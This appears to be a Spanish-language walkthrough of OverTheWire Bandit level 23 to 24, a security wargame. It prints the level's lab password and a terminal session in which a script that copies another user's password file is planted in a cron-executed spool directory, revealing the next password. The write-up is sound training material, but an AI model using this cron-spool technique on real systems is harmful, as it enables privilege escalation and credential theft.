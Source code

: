 ## Bandit Level 23 - Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
```
bandit23 QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
## Solución
```
bandit23@bandit:~$ mkdir /tmp/ikeg01
bandit23@bandit:~$ cd /tmp/ikeg01
bandit23@bandit:/tmp/ikeg01$ nano ikegscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/ikeg01$ cat ikegscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/ikeg01/password
bandit23@bandit:/tmp/ikeg01$ chmod 777 ikegscript.sh
bandit23@bandit:/tmp/ikeg01$ touch password
bandit23@bandit:/tmp/ikeg01$ chmod 666 password
bandit23@bandit:/tmp/ikeg01$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:31 ikegscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/ikeg01$ cp ikegscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/ikeg01$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:31 ikegscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 password
bandit23@bandit:/tmp/ikeg01$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/ikeg01$
```
## Notas adicionales
## Referencias